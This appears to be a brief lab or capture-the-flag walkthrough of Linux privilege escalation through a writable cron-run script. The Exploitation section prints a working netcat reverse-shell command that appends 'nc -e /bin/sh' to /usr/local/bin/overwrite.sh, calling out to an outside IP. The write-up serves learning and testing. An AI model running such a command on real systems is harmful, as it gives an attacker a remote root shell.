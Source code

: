 # Detection

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/96658935/147763273-478888a6-fae9-4af6-a985-9218d7de2f59.png)


Next check teh permissions on the file

![image](https://user-images.githubusercontent.com/96658935/147763358-ea1c3f81-b056-45e0-a162-1139013e5c43.png)


we see that it is writable. So from here I just put a reverse shell in that file and waited for it to execute.


# Exploitation
```bash
echo 'nc -e /bin/sh 10.6.34.136 1234' >> /usr/local/bin/overwrite.sh
```

![image](https://user-images.githubusercontent.com/96658935/147763471-5c0711dd-21e6-4f9e-8241-94b8188fa386.png)
